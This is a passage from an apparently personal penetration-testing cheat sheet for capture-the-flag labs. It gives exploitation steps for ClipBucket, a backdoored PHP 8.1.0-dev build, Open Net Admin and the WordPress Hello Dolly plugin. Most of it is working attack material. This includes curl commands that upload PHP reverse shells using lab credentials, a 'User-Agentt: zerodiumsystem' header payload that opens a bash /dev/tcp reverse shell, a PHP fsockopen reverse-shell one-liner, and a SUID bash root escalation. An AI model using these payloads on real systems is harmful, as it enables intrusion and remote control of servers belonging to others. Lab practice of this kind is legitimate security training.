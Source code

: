 ```
/bin/bash -p
whoami
root
```

### ClipBucket

* File upload vulnerability with authentication

```
curl --user developers:9972761drmfsls -F "file=@php_reverse_shell.php" -F "plupload=1" -F "name=php_reverse_shell.php" "http://broadcast.vulnnet.thm/actions/photo_uploader.php"
curl --user developers:9972761drmfsls -F "file=@php_reverse_shell.php" -F "plupload=1" -F "name=php_reverse_shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
curl --user developers:9972761drmfsls -F "file=@shell.php" -F "plupload=1" -F "name=shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
```

* Site will tell you the MD5 Hash name of the file and the directory it is located. Make sure to add the `.php` extension to the end.

### PHP 8.1.0-dev

* This version of php was backdoored
* Detect with nikto or by capturing the server response in burp
* `X-Powered-By: PHP 8/1/0/dev` --> what you are looking for
* Automated POC exploit
* [https://www.exploit-db.com/exploits/49933](https://www.exploit-db.com/exploits/49933)
* Manual Exploitation:
* Capture a request in burp suite
* Add additional `User-Agentt` header to the request (yes it is supposed to be spelled with two t's)
* Payload:

```
User-Agentt: zerodiumsystem('bash -c "bash -i >& /dev/tcp/10.10.14.13/9001 0>&1"');
```

### Open Net Admin (ona)

* Metasploit module for CMD injection 18.1.1
* [https://www.exploit-db.com/exploits/47772](https://www.exploit-db.com/exploits/47772)
* Database file with credentials is located here:

```
 /opt/ona/www/local/config/database_settings.inc.php
```

### Wordpress HelloDolly Plugin&#x20;

<pre><code>https://yebberdog.medium.com/try-hack-me-jack-walkthrough-904035594dc2
<strong>- craft shell from hacktricks 
</strong>- from revshells.com
&#x3C;?php $sock=fsockopen("10.10.14.2",80);passthru("/bin/bash &#x3C;&#x26;3 >&#x26;3 2>&#x26;3"); ?>
- update dolly code 
File edited successfully.
- now activate it 
